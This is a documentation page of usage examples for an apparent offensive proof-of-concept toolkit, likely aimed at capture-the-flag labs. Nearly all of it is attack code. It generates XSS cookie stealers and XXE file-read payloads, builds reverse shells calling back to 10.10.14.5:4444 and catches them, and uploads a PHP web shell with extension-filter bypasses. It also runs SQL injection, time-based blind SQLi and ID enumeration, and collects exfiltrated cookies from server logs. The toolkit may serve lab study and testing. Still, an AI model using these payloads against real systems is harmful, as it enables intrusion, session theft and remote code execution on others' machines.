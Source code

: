 Examples
========

Common POC patterns and code snippets.

Colored Output
--------------

Use colored output for better visibility instead of ``print()``:

.. code-block:: python

   from your_project.utils.output import out

   out.success("Target is vulnerable!")       # [+] Green
   out.error("Connection failed")             # [-] Red
   out.info("Starting exploit")               # [*] Blue
   out.warning("Using default credentials")   # [!] Yellow
   out.debug(f"Response: {response.text}")    # [DEBUG] Magenta
   out.status("Extracting data...")           # [...] Cyan
   out.raw("No prefix")                       # No prefix, no color

Cookie Handling
---------------

Parse and use stolen cookies:

.. code-block:: python

   from your_project.utils.cookie import parse_cookie_string
   from your_project.utils.server_hooks import get_cookie
   import requests

   # Wait for XSS to steal cookie
   cookie_str = get_cookie(timeout=30)
   # Returns: "session=abc123; token=xyz789"

   # Parse for use with requests
   cookies = parse_cookie_string(cookie_str)
   # Returns: {'session': 'abc123', 'token': 'xyz789'}

   # Use in request
   response = requests.get(target_url, cookies=cookies)

XSS Payloads
------------

Generate XSS payloads with automatic callbacks:

.. code-block:: python

   from your_project.utils.xss import img_onerror, blind_xss, cookie_stealer, polyglot

   # Quick test payload
   payload = img_onerror(f"http://{lhost}:8000")

   # Cookie stealer with base64 encoding
   payload = cookie_stealer(f"http://{lhost}:8000")

   # Blind XSS with full context exfil
   payload = blind_xss(f"http://{lhost}:8000", identifier="admin_panel")

   # Polyglot (works in multiple contexts)
   payload = polyglot(f"http://{lhost}:8000")

   # Context-specific
   from your_project.utils.xss import context_specific
   payload = context_specific(f"http://{lhost}:8000", context="attribute")
   # Contexts: html, attribute, js, css

XXE Exploitation
----------------

Generate XXE payloads for file reading and SSRF:

.. code-block:: python

   from your_project.utils.xxe import quick_test, basic_file_read, php_filter_b64

   # Quick test (creates DTD + payload)
   payload = quick_test(f"http://{lhost}:8000", "/etc/passwd")
   # Writes DTD to payloads/xxe/xxe.dtd

   # Basic file read (in-response)
   payload = basic_file_read("/etc/passwd")

   # PHP source via filter
   payload = php_filter_b64("/var/www/html/config.php")

   # Format-specific
   from your_project.utils.xxe import svg_xxe, soap_xxe
   svg_payload = svg_xxe(f"http://{lhost}:8000", "/etc/passwd")

   # Get exfiltrated data
   from your_project.utils.server_hooks import get_exfil
   data = get_exfil(timeout=30)

Reverse Shells
--------------

Generate shells dynamically:

.. code-block:: python

   from your_project.utils.reverse_shells import bash_shell, python_oneliner, quick_bash

   # Generate shell files
   path = bash_shell("10.10.14.5", 4444)
   # Creates: payloads/shells/rev_bash.sh
   # Serve at: http://10.10.14.5:8000/shells/rev_bash.sh

   # Get one-liner for direct RCE
   cmd = python_oneliner("10.10.14.5", 4444)
   # Use in: os.system(cmd) or RCE vulnerability

   # Quick helper with download instructions
   quick_bash(lhost, 4444)  # Prints curl/wget commands

Shell Catcher
-------------

Catch reverse shells directly in Python (no netcat needed):

.. code-block:: python

   from your_project.utils.shell_catcher import ShellCatcher, auto_shell, quick_catch

   # Method 1: Full control
   catcher = ShellCatcher(4444)
   catcher.start()
   trigger_exploit()
   if catcher.wait_for_shell(timeout=30):
       catcher.stabilize()  # Upgrade to PTY
       catcher.interact()   # Interactive shell!

   # Method 2: Context manager (recommended)
   with auto_shell(4444) as catcher:
       trigger_exploit()
       if catcher.shell_caught:
           catcher.stabilize()
           catcher.interact()

   # Method 3: With trigger function
   def trigger():
       requests.get(f"http://target/rce?cmd={python_oneliner(lhost, 4444)}")

   quick_catch(4444, trigger_func=trigger)

File Upload
-----------

Upload files with bypass techniques:

.. code-block:: python

   from your_project.utils.file_upload import FileUploader, quick_upload

   # Full control
   uploader = FileUploader("http://target/upload")
   result = uploader.upload_with_bypass(
       "shell.php",
       b"<?php system($_GET['cmd']); ?>",
       techniques=["null_byte", "double_extension", "case_variation"]
   )

   # Simple upload
   result = uploader.upload("shell.php", php_code)

   # One-liner
   quick_upload("http://target/upload", "shell.php", php_code)

Available bypass techniques:

* ``null_byte``: filename.php%00.jpg
* ``double_extension``: filename.jpg.php
* ``case_variation``: filename.PHP
* ``mime_mismatch``: Send PHP as image/jpeg

Batch Requests
--------------

Intruder-style fuzzing with concurrency:

.. code-block:: python

   import httpx
   from your_project.utils.batch_request import (
       batch_request_sync,
       generate_param_payloads,
       generate_json_payloads
   )

   # Build base request
   client = httpx.Client()
   base = client.build_request(
       "POST",
       "http://target/api/login",
       json={"username": "test", "password": "test"}
   )

   # Test SQL injection
   sqli = ["' OR '1'='1", "admin'--", "' UNION SELECT NULL--"]
   results = batch_request_sync(
       base,
       payloads=generate_json_payloads("username", sqli),
       validate=lambda r: "dashboard" in r.text,
       concurrency=5,
       proxy="http://127.0.0.1:8080"
   )

   # Find successful payloads
   for r in results:
       if r.matched:
           out.success(f"Valid: {r.payload}")

   # Enumerate IDs
   results = batch_request_sync(
       client.build_request("GET", "http://target/api/user"),
       payloads=generate_param_payloads("id", range(1, 1000)),
       validate=lambda r: r.status_code == 200,
       concurrency=50
   )

Apache Hooks
------------

Read callbacks from Apache logs instead of built-in server:

.. code-block:: python

   from your_project.utils.apache_hooks import get_cookie, get_exfil, get_param

   # Get cookie from Apache logs
   cookie = get_cookie('/var/log/apache2/access.log', timeout=30)
   # Auto-decodes base64, returns most recent

   # Get exfiltrated data
   data = get_exfil('/var/log/apache2/access.log', timeout=30)

   # Get custom parameter
   value = get_param('data', '/var/log/apache2/access.log', timeout=30)

   # Watch in real-time
   from your_project.utils.apache_hooks import watch_log
   watch_log('/var/log/apache2/access.log', params=['cookies', 'exfil'])

CLI watch mode:

.. code-block:: bash

   uv run python -m your_project.utils.apache_hooks watch
   uv run python -m your_project.utils.apache_hooks watch /var/log/apache2/access.log cookies exfil

Network Utilities
-----------------

Get network interfaces and callback IPs:

.. code-block:: python

   from your_project.utils.network import get_interfaces, get_callback_host

   # Get all interfaces
   interfaces = get_interfaces()
   # {'eth0': '10.10.14.5', 'tun0': '10.10.16.2', ...}

   # Get best callback IP (prioritizes VPN)
   lhost = get_callback_host()
   # Returns: '10.10.16.2' (or best available)

Encoding Utilities
------------------

Common encoding operations:

.. code-block:: python

   from your_project.utils.encoding import (
       b64_encode, b64_decode,
       url_encode, url_decode,
       to_hex, from_hex,
       html_encode, html_decode
   )

   # Base64
   encoded = b64_encode("admin:password")
   decoded = b64_decode("YWRtaW46cGFzc3dvcmQ=")

   # URL
   safe = url_encode("../../etc/passwd")
   unsafe = url_decode("%2e%2e%2f")

   # Hex
   hex_str = to_hex("ABCD")      # "41424344"
   text = from_hex("41424344")    # "ABCD"

HTML Parsing
------------

Easy BeautifulSoup wrapper:

.. code-block:: python

   from your_project.utils.html_parser import HTMLParser, quick_parse, parse_response

   # Parse response
   parser = HTMLParser.from_response(response)

   # Find elements
   form = parser.find_by_id("login-form")
   inputs = parser.find_all_by_class("form-input")
   links = parser.find_links()

   # CSRF tokens
   csrf = parser.find_csrf_token()
   all_tokens = parser.find_all_csrf_tokens()

   # Forms
   forms = parser.find_forms()
   for form in forms:
       data = parser.extract_form_data(form)
       print(f"Action: {form.get('action')}, Data: {data}")

   # CSS selectors
   hidden = parser.css_select("input[type='hidden']")

   # Dump helpers
   parser.dump_forms()
   parser.dump_links()

Timing Attacks
--------------

For blind time-based exploitation:

.. code-block:: python

   from your_project.utils.timing import time_request

   def attempt(payload):
       return requests.get(f"http://target?id={payload}")

   duration = time_request(attempt, "1' AND SLEEP(5)--")
   if duration > 5:
       out.success("Vulnerable to time-based SQLi!")

Zip Utilities
-------------

Create and extract zip files:

.. code-block:: python

   from your_project.utils.zip_util import quick_zip, zip_multiple, extract_zip

   # Quick zip
   quick_zip("payloads/", output="payloads.zip")

   # Zip multiple files
   zip_multiple(
       ["exploit.py", "shell.php", "config.json"],
       output_path="poc.zip"
   )

   # Extract safely (prevents zip slip)
   extract_zip("archive.zip", extract_to="./extracted")
